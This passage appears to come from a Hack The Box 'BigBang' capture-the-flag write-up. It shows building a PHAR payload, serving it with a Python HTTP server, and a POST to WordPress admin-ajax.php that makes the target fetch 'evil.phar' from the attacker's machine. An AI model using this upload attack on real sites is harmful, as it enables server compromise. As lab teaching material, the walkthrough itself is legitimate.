 ```php
php --define phar.readonly=0  pain.php
```

![Screenshot 2025-01-28 at 12.22.09 AM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-28_at_12.22.09_AM.png)

```bash
python3 -m http.server 8000
```

```jsx
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

action=upload_image_from_url&url=http://10.10.14.xxx:8000/evil.phar&id=pain05&accepted_files=image/gif
```

[ Alert! ] You can upload .gif .png .phar in this screenshot i used .gif but you have to use .phar as the above Burp Request ! this screenshot is just for prove that the file is uploading.
